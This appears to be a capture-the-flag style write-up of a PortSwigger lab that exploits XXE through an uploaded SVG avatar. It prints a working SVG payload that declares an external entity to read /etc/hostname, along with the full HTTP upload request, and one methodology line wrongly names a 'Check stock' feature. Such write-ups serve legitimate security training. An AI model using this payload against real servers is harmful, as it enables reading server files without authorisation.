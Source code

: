 ## Exploiting XXE via image file upload

**Title:** Exploiting XXE via image file upload. [Go](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) 

**Description:** This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files. To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
 
## Preface

**XXE attacks via file upload**

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

**XXE attacks via modified content type**

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML. For example, if a normal request contains the following:

``` HTTP
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:

``` HTTP
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

We created a text file then saved this XML code and changed its extension to `.svg`.

``` XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
Then we posted a comment on a blog post and uploaded this image as an avatar. When we viewed our comment, we should see the contents of the `/etc/hostname` file in our image. We submitted the value of the server hostname and solved the lab.

**Request**

``` HTTP
POST /post/comment HTTP/2
Host: 0a0a0035040272d880d849aa005f007f.web-security-academy.net
Cookie: session=ZzsySAkz3PAbkKtvb5djxt7eWqPteQgP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------396565772112584950671156885671
Content-Length: 1238
Origin: https://0a0a0035040272d880d849aa005f007f.web-security-academy.net
Referer: https://0a0a0035040272d880d849aa005f007f.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="csrf"

OoDvRnfYUHFWNrPFxxrTrsO065EzrxxX
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="postId"

4
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="comment"

neogeo
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="name"

neogeo
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="avatar"; filename="pacman.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="email"

neogeo@neogeo.com
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="website"

-----------------------------396565772112584950671156885671--
```

**Response**
``` HTTP
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=4
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
